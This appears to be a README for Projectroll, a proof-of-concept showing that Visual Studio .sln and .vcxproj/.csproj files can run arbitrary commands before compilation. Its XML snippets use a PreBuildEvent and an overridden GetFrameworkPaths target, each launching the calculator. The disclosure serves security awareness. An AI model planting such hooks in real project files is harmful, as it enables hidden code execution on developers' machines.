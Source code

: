 # Projectroll

**Projectroll** exploits vulnerabilities in Visual Studio triggers, targeting project files like `.sln` and `.vcxproj`/`.csproj`. It demonstrates how arbitrary commands can be executed without compilation, revealing security risks in the development environment.



## Features

### 1. **PreBuildEvent**
Executes arbitrary commands before project compilation.
```xml
<PreBuildEvent>
    <Command>
    cmd /c calc
    </Command>
</PreBuildEvent>
```
```xml
<Target Name="GetFrameworkPaths">
    <Exec Command="calc.exe"/>
</Target>
```

## Credits
The vulnerability has been discovered by cjm00n & edwardzpeng (https://x.com/edwardzpeng)
VisualStudio .suo deserialization exploit - https://github.com/moom825/visualstudio-suo-exploit
